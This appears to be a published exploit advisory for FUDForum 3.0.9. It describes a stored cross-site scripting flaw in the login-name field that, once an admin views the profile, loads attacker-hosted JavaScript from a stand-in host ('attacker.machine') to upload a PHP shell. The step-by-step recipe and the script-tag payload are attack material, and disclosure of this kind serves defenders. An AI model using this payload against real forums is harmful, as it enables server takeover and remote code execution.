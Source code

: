 # FUDForum 3.0.9 - Stored XSS / Remote Code Execution [via Forum]

- Date                  : 11/8/19
- Exploit Author        : liquidsky (JMcPeters)
- Vulnerable Software   : FUDForum 3.0.9
- Vendor Homepage       : http://fudforum.org/forum/
- Version               : 3.0.9
- Software Link         : https://sourceforge.net/projects/fudforum/
- Tested On             : Windows / mysql / apache
- Author Site           : http://incidentsecurity.com | demo: https://youtu.be/0gsJQ82TXw4
- CVE                   : TBD

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to Stored XSS via the "nlogin" parameter. This may result in remote code execution. An attacker can use a user account to fully compromise the system using a POST request. When the admin visits the user information the payload will execute. This will allow for PHP files to be written to the web root, and for code to execute on the remote server.

Notes: 

1. Register an account and log in to the forum.

2. Go to the user control panel. -> Account Settings -> change login

3. Insert javascript payload <script/src="http://attacker.machine/fud.js"></script>

4. When the admin visits the user information the payload will fire, uploading a php shell on the remote system.
